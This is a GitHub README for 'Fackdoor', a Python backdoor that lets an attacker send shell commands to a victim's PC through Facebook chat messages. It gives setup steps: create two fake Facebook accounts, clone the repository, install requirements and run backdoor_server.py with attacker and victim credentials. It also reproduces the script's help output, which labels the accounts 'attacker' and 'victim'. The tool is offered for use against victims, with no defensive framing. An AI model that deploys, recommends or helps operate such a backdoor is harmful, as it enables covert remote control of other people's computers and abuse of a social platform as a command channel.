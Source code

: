 # Fackdoor
a backdoor written in python but the vicim and the attacker's pc communicate through fbchat module 
the backdoor_victim script connects to the fb act given by the user and starts listening for messages (commands) sent by the account made for the backdoor_server script and that way you can even send commands to the pc by your phone 

![Fackdoor Demo](intro.gif)


### Usage
First create 2 random facebook accounts
then run the backdoor_server script with the server_act username and the server_act pwd
and victim_act username and the victim_act pwd

clone the github repo
```
$ git clone https://github.com/Amine-Zitoun/fackdoor
```
install dependencies
```
$ cd fackdoor
$ pip install -r requirements.txt
```
then run the backdoor_server.py scrip

```
$ python backdoor_server.py -sa <server_act username> -sp <server_act pwd> -va <victim_act username> -vp <victim_act pwd>
```
to get all the commands use
```
$ python backdoor_server.py --help
```
```
usage: backdoor_server.py [-h] [-sa SERVERACTNAME] [-sp SERVERACTPWD]
                          [-va VICTIMACTNAME] [-vp VICTIMACTPWD]

Backdoor using FB

optional arguments:
  -h, --help            show this help message and exit
  -sa SERVERACTNAME, --serveractname SERVERACTNAME
                        attacker 'fb' act name
  -sp SERVERACTPWD, --serveractpwd SERVERACTPWD
                        attacker 'fb' act pwd
  -va VICTIMACTNAME, --victimactname VICTIMACTNAME
                        victim 'fb' act name
  -vp VICTIMACTPWD, --victimactpwd VICTIMACTPWD
                        victim 'fb' act pwd
```